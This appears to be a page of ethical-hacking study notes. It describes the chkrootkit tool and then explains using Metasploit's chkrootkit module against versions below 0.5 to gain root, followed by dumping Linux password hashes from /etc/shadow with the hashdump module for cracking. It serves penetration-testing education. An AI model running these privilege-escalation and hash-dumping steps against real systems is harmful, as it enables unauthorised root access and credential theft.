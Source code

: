 **chkrootkit** is a tool to locally check for signs of a [rootkit](https://www.chkrootkit.org/links/). It contains:

* chkrootkit: shell script that checks system binaries for rootkit modification.
* ifpromisc.c: checks if the interface is in promiscuous mode.
* chklastlog.c: checks for lastlog deletions.
* chkwtmp.c: checks for wtmp deletions.
* check\_wtmpx.c: checks for wtmpx deletions. (Solaris only)
* chkproc.c: checks for signs of LKM trojans.
* chkdirs.c: checks for signs of LKM trojans.
* strings.c: quick and dirty strings replacement.
* chkutmp.c: checks for utmp deletions.

If chkrootkit is running on target machine, and vs is less than 0.5, we can exploit it.

```bash
ps aux #process running on the system
cat /bin/check-down #see check-down source code
chkrootkit —help
chkrootkit -V #version, if it's less than 0.5, we can exploit it
search chkrootkit
use exploit/unix/local/chkrootkit
```

### Duping Hashes With Hashdump

In Linux OS hashes are stored in the /etc/shadow file and can only be accessed by the root user or a user with root privileges.

Of course, in MSF there're a module called hashdump to dump linux user hashes from the /etc/shadow file and can also be used to unshadow the hashes for password cracking with [John the Ripper](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/john-the-ripper) tool.

After exploiting the target and starting Meterpreter Shell, we need to check if the target has root permission using getuid command, or we need to elevate it.

```bash
getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

uid equals to 0 means that we've root permissions, then we can use meterpreter hashdump module:

```
search hashdump
use post/linux/gather/hashdump
```

This exploit generates a txt file with all hashes, we can see list of dump with `loot` command and read them using `cat` command.
